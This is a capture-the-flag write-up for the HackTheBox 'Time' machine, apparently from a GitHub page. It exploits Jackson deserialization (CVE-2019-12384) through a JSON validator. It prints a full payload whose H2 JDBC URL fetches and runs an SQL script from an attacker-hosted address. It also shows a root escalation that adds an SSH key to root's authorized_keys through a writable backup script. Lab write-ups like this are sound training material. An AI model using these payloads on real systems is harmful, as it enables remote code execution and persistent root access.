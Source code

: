 <script src="https://www.hackthebox.eu/badge/36120"></script>

<h2>Time - HackTheBox - WriteUp</h2>


<h1>Steps</h1>

<hr>1° step: Nmap scan
<hr>2° step: Dirsearch (nothing interesting found)
<hr>3° step: Enumeration
<hr>3° step: Test a vector in the web application
<hr>4° step: Getting a shell
<hr>5° step: Privilege escalation


<h1>Nmap</h1>
![image](https://i.imgur.com/nNgEXkK.png "Nmap Scan")<br>
We found two ports: 22 and 80.


While I was enumerating the webserver, I left running dirsearch.
![image](https://imgur.com/iFMN0Fv.png "Dirsearch")<br>
Nothing interesting found.


In the webserver, there's a "JSON Beautifier and Validator"<br>
Testing "Beautify" option, nothing curious was found.
![image](https://imgur.com/oXxi1e0.png "Webserver")<br>

But, if we change to "Validate(Beta!)" option, we see something interesting.
![image](https://imgur.com/Ya1EBHq.png "Validate vector")<br>
An error, that's awesome! Beta features are always interesting, let's take a look for it.

That's the complete error:
![image](https://imgur.com/nGsqPqX.png "Complete error")<br>
I marked an interesting factor, let's research it.


After some research, I found and read some articles talking about "Jackson Deserialization" and a "RCE" in this library.<br>
I tried to send '{"FDivision"}' and the error changed:
![image](https://imgur.com/TMCdfOe.png "New error")<br>

Searching on google and reading a little, I checked a solution for this error.<br>
We need to use "[]" instead of "{}"<br>
Following this thought, I got this response:<br>
![image](https://imgur.com/yJ0VYq1.png "Could not resolve type id 'FDivision', no class found")<br>

Searching for it, I found an exploit. [Github exploit](https://github.com/jas502n/CVE-2019-12384)<br>

<h1>Let's start exploiting.</h1><br>

First, we need to create a "inject.sql", as was said [here](https://github.com/jas502n/CVE-2019-12384)<br>

Then, start your listeners.<br>
![image](https://imgur.com/sPCiXxN.png "NC listener")<br>
![image](https://imgur.com/amInJkc.png "Python listener")<br>

Now we can send the payload:
<p>"["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.197/inject.sql'"}]"</p><br>

And we got the user!
![image](https://imgur.com/sramzmY.png "user flag")<br>

<h1>Privilege Escalation</h1><br>

If we run any enumeration script, You'll see a script called "timer_backup.sh"<br>
I won't print the exit of this tools, because it's too big.<br>

Here we can see the permissions of this script.<br>
![image](https://imgur.com/5TO81Ht.png "Script perms")<br>
We can write into the file!<br>
Lets try to put our ssh key.<br>

' echo "echo KEY >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh '<br>
(You need to change "KEY" to your ssh public key)<br>
![image](https://imgur.com/YIhS0bZ.png "command")<br>

Then we can login as root in SSH:<br>
![image](https://imgur.com/X0x4wke "rooted")<br>

<h1>Just to curious: It has a second way to root.</h1>

![image](https://imgur.com/SVYgD87.png "Second way to root")
